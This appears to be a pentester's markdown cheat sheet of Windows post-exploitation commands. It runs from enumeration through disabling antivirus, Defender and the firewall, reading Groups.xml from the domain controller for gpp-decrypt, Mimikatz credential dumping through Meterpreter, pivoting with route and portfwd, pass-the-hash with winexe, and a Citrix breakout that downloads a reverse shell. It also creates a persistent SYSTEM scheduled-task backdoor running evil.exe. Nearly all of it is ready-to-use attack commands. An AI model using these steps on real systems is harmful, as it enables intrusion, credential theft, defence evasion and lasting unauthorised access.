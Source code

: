 1. whoami

1.1 net user /whoami

1.2 whoami /priv

2. ipconfig

3. systeminfo

3.1 wesng

3.2 What architecture?

4. Run enum script

4.1 - Upload accesschk and 

4.2 - Batch or PS scripts

5. Identify  IP and name of internal DC

5.1 - Map DC drive to local:

5.1.1 ```net use z: \\$dc\sysvol```

5.1.2 ```z:```

5.1.3 Search for interesting files: dir /s Groups.xml (?)

5.1.3.1 If getting this far, copy to local and decrypt with: gpp-decrypt $hash

#### AV Running? I can killz?

```tasklist /svc```

```tasklist /svc | find /I “avg”```

Powershell: ```Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $name```

Batch: ```wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayNamed```

```sc stop $process```

```sc config "service name" start= disabled```

```taskkill /F /IM $avprocess.exe```

```net stop “service name"```


##### FW? #####

```netsh firewall show opmode```

```netsh firewall set opmode mode=disable```


##### Stop WInDefend Monitoring #####

```Set-MpPreference -DisableRealtimeMonitoring $true```



##### Migrate Meterpreter 32 -> 64 bit

meterpreter: ```ps -S "winlogon"```

meterpreter: ```migrate $new_pid```

##### Mimikatz

meterpreter: ```load mimikatz```

meterpreter: ```msv```

meterpreter: ```kerberos```

### Pivot 

#### Meterpreter 

1. Note IP address

2. Exit shell

3. Background Meterpreter

4. ```route add 10.10.0.0 255.255.255.0 $sessionNumber``` NOTE: *10.10.0.0 == internal network*

5. Reconnect to session

6. portfwd add -l $local_port -p $remote_port -r $target_ip 

##### PTH

1. Acquire password

2. Get winexe

3. Set up port forward if required

4. ```Kali:~# winexe -U $username%password //127.0.0.1 "cmd"```

#### Once Admin Set Up Persistent Backdoor

pwn == Task name

```schtasks /create /ru SYSTEM /sc minute /MO 10 /tn pwn /tr "\C:\evil.exe""```

```C:\ exit```

```meterpreter: portfwd delete -l $local_port -p $remote_port -r $target_ip ```

```background```

Start new handler and wait

#### Citrix

1. Login

2. What apps are available?

3. Open other programs?

3.1 Example: Internet Explorer

3.1.1 Help

3.1.2 Open notepad

3.1.3 Save 'powershell' to .bat file

4.1.4 Use Notepad again to open .bat (Run it)

4.2 Download new reverse shell

4.3 Handle with meterpreter

#### Elevate Existing Process via privesc exploit

1. Get meterpreter pid

```meterpreter: getpid```

```meterpreter: execute -H -f evil.exe -p "-pid $pid"```

